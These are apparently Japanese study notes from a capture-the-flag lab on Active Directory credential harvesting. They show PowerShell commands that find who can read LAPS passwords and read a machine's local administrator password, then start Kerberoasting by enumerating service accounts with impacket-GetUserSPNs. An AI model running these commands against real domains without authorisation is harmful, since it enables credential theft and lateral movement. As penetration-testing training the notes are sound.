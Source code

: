 ## ローカル管理者パスワードソリューション (LAPS)

Active Directory 内のコンピュータオブジェクトに 2 つの属性 が含まれる。

- ms-mcs-AdmPwd ローカル管理者のクリアテキスト パスワード
- ms-mcs-AdmPwdExpirationTime パスワードをリセットする有効期限

LAPS は admpwd.dll を使用して、ローカル管理者のパスワードを変更し、 ms-mcs-AdmPwd の値を更新する。

```ps
# Admpwd.dll をチェックし、LAPS がインストールされているかどうかを確認
dir "C:\Program Files\LAPS\CSE"

# 使用できるコマンドを確認
Get-Command *AdmPwd*
```

```ps
# AdmPwdExtendedRights 属性を持つユーザーの検索
# どのマシンのパスワードを誰が読み取れるかを示す
Find-AdmPwdExtendedRights -Identity <OU>

ObjectDN                                      ExtendedRightHolders
--------                                      --------------------
OU=THMorg,DC=thm,DC=red                       {THM\THMGroupReader}

# グループに属するユーザーを検索
net groups "THMGroupReader"
```

検索したユーザーか、またはドメイン管理者ならパスワードを読める

```ps
# 「creds-harvestin」マシンのローカルAdministratorのパスワード
Get-AdmPwdPassword -ComputerName creds-harvestin
```

実際の AD 環境では、LAPS は特定のマシンでのみ有効になっていることに注意。したがって、LAPS パスワードを取得するには、適切なターゲット コンピューターと適切なユーザーアカウントを列挙して見つける必要がある。

ツールの例  
https://github.com/leoloobeek/LAPSToolkit

## ケルベロースティング

```shell
# SPN(サービスプリンシパル名) アカウントを見つける
$ impacket-GetUserSPNs -dc-ip 10.10.26.212 THM.red/thm

Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Password:
ServicePrincipalName          Name     MemberOf  PasswordLastSet             LastLogon  Delegation
----------------------------  -------  --------  --------------------------  ---------  ----------
http/creds-harvestin.thm.red  svc-thm            2022-06-10 05:47:33.796826  <never>
```
